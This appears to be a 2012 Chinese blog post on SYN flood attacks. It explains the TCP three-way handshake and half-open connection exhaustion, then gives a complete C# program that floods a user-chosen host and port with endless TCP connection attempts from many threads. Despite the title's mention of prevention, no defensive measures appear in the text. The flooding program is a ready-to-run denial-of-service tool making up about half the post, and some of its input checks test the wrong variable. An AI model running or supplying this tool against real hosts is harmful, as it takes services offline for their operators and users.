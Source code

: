 ```yaml
---
author: TheC
comments: true
date: 2012-01-10 12:29:29+00:00
layout: post
slug: synflood
title: SynFlood的原理与防范
wordpress_id: 206
categories:
- ACFUN
---
```


SYN Flood是当前最流行的针对服务器的方式之一，它是利用TCP协议缺陷，发送大量伪造的TCP连接请求，从而使得被攻击方资源耗尽的攻击方式，最终导致服务器无法提供正常的服务。

TCP与UDP不同，TCP是基于连接的协议，为了在服务端和客户端之间传送TCP数据，必须先建立一个虚拟连接，也就是TCP连接。也就是我们经常听说的TCP协议中的三次握手（Three-way Handshake），建立TCP连接的标准过程如下：

第一次握手：建立连接时，客户端发送syn包(syn=j)到服务器，并进入SYN_SEND状态，等待服务器确认；
第二次握手：服务器收到syn包，必须确认客户的SYN（ack=j+1），同时自己也发送一个SYN包（syn=k），即SYN+ACK包，此时服务器进入SYN_RECV状态；
第三次握手：客户端收到服务器的SYN＋ACK包，向服务器发送确认包ACK(ack=k+1)，此包发送完毕，客户端 和服务器进入ESTABLISHED状态，完成三次握手。
<!-- more -->
但是在实际中，我们并不能保证每次握手都成功，服务器也不能立即处理掉来握手的每一个用户。于是在三次握手协议中，服务器维护一个未连接队列，该队列为每个客户端的SYN包（syn=j）开设一个条目，该条目表明服务器已收到SYN包，并向客户发出确认，正在等待客户的确认包。这些条目所标识的连接在服务器处于Syn_RECV状态，当服务器收到客户的确认包时，删除该条目，服务器进入 ESTABLISHED状态。
你也许会问，假如我在握手过程中，网络条件变坏突然丢包怎么办？服务器发送完SYN－ACK包，如果未收到客户确认包，服务器进行首次重传，等待一段时间仍未收到客户确认包，进行第二次重传，如果重传次数超过系统规定的最大重传次数，系统将该连接信息从半连接队列中删除。
OK问题出来了。第二次握手结束，第三次握手是客户端发起的，什么时候向服务器确认，客户端定的，假如客户端不向服务器发送ACK包，那么服务器将一直等待(SYN_RECV)，一般来说这个时间是30秒左右一个用户出现异常导致服务器的一个线程等待半分钟并不会对服务器端造成什么大的影响，但如果有大量的等待丢失的情况发生，服务器端将为了维护一个非常大的半连接请求而消耗非常多的资源。大量的数据保存并遍历也会消耗非常多的CPU时间和内存，再加上服务器端不断对列表中的IP进行SYN+ACK的重试，服务器的负载将会变得非常巨大。如果服务器的TCP/IP栈不够强大，最后的结果往往是 堆栈溢出崩溃。相对于攻击数据流，正常的用户请求就显得十分渺小，服务器疲于处理攻击者伪造的TCP连接请求而无暇理睬客户的正常请求，此时从正常客户会表现为打开页面缓慢或服务器无响应，这种情况就是我们常说的服务器端SYN Flood攻击。

下面一段C#程序演示了如何进行Syn攻击：
[csharp]
namespace acfun.Lurnar.TestAPP
{
    using System;
    using System.Net;
    using System.Net.Sockets;
    using System.Threading;

    internal class SynFlood
    {
        private static ThreadStart[] FloodingJob;
        private static Thread[] FloodingThread;
        public static string Host;
        private static IPEndPoint ipEo;
        public static int Port = 80;
        private static SendSyn[] SynClass;
        public static int SynSockets = 80;
        public static int Threads = 50;

        private static int string2int(string str)
        {
            int result = -1;
            if (int.TryParse(str, out result)) return result;
            else return -1;

        }
        public static void Main()
        {
            Console.WriteLine("端口？");
            string temp = null;
            while (temp == null)
            {
                temp = Console.ReadLine();
                if (temp != null)
                {
                    Port = string2int(temp);
                    if (Port == -1)
                    {
                        Port = 80;
                        temp = null;
                    }
                }
            }
            temp = null;
            Console.WriteLine("Syn端口？");
            while (temp == null)
            {
                temp = Console.ReadLine();
                if (temp != null)
                {
                    SynSockets = string2int(temp);
                    if (Port == -1)
                    {
                        SynSockets = 80;
                        temp = null;
                    }
                }
            }
            temp = null;
            Console.WriteLine("线程数？");
            while (temp == null)
            {
                temp = Console.ReadLine();
                if (temp != null)
                {
                    Threads = string2int(temp);
                    if (Port == -1)
                    {
                        Threads = 200;
                        temp = null;
                    }
                }
            }
            Console.WriteLine("域名或IP地址？");
            while (Host == null)
            {
                Host = Console.ReadLine();
                try
                {
                    ipEo = new IPEndPoint(Dns.GetHostEntry(Host).AddressList[0], Port);
                }
                catch
                {
                    try
                    {
                        ipEo = new IPEndPoint(IPAddress.Parse(Host), Port);
                    }
                    catch
                    {
                        Host = null;
                    }
                }
            }
            FloodingThread = new Thread[Threads];
            FloodingJob = new ThreadStart[Threads];
            SynClass = new SendSyn[Threads];
            for (int i = 0; i < Threads; i++)
            {
                SynClass[i] = new SendSyn(ipEo, SynSockets);
                FloodingJob[i] = new ThreadStart(SynClass[i].Send);
                FloodingThread[i] = new Thread(FloodingJob[i]);
                Console.WriteLine("初始化线程[" + i.ToString() + "]" );
                FloodingThread[i].Start();
            }
        }

        public static void StopSynFlood()
        {
            for (int i = 0; i < Threads; i++)
            {
                try
                {
                    FloodingThread[i].Abort();
                }
                catch
                {
                }
            }
        }

        private class SendSyn
        {
            private IPEndPoint ipEo;
            private Socket[] Sock;
            private int SynSockets;

            public SendSyn(IPEndPoint ipEo, int SynSockets)
            {
                this.ipEo = ipEo;
                this.SynSockets = SynSockets;
            }

            public void OnConnect(IAsyncResult ar)
            {
            }

            public void Send()
            {
                int num;
            Label_0001: ;
                try
                {
                    this.Sock = new Socket[this.SynSockets];
                    for (num = 0; num < this.SynSockets; num++)
                    {
                        this.Sock[num] = new Socket(this.ipEo.AddressFamily, SocketType.Stream, ProtocolType.Tcp);
                        this.Sock[num].Blocking = false;
                        AsyncCallback callback = new AsyncCallback(this.OnConnect);
                        this.Sock[num].BeginConnect(this.ipEo, callback, this.Sock[num]);
                    }
                    Thread.Sleep(100);
                    for (num = 0; num < this.SynSockets; num++)
                    {
                        if (this.Sock[num].Connected)
                        {
                            this.Sock[num].Disconnect(false);
                        }
                        this.Sock[num].Close();
                        this.Sock[num] = null;
                    }
                    this.Sock = null;
                    goto Label_0001;
                }
                catch
                {
                    for (num = 0; num < this.SynSockets; num++)
                    {
                        try
                        {
                            if (this.Sock[num].Connected)
                            {
                                this.Sock[num].Disconnect(false);
                            }
                            this.Sock[num].Close();
                            this.Sock[num] = null;
                        }
                        catch
                        {
                        }
                    }
                    goto Label_0001;
                }
            }
        }
    }
}
[/csharp]
